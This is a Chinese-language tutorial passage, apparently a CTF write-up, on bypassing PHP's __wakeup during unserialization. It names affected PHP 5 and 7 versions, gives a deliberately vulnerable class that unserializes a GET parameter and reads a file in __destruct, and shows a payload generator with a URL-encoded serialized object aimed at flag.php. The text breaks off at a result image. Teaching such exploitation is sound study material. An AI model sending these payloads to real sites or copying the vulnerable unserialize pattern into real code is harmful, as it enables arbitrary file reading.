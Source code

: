 ## __wakeup绕过

在反反序列化时，如果 `表示对象属性个数的值`大于 `真实的属性个数时`就会跳过 `__wakeup( )`的执行。

影响版本

`php5.0.0 ~ php5.6.25`

`php7.0.0 ~ php7.0.10`

`php`源码

```php
<?php
	highlight_file(__FILE__);
	class A{
		private $filename = 'test.txt';

		public function __wakeup() {
			$this->filename = 'test.txt';
		}
	
		public function __destruct() {
			echo file_get_contents($this->filename);
		}
	
	}

	$data = $_GET['data'];
	unserialize($data);
```

`php`语言的特性为在反序列化时，先执行 `__wakeup()`魔术方法，才会执行 `__destruct()`魔术方法

也就是说当我们使用 `payload`

```php
<?php
    class A{
        private $filename = 'flag.php';
    }

    echo urlencode(serialize(new A()));
```

`O%3A1%3A%22A%22%3A1%3A%7Bs%3A11%3A%22%00A%00filename%22%3Bs%3A8%3A%22flag.php%22%3B%7D`

去反序列化时

结果为

![php_unseriablize1](phpUnserialize/s1.png)

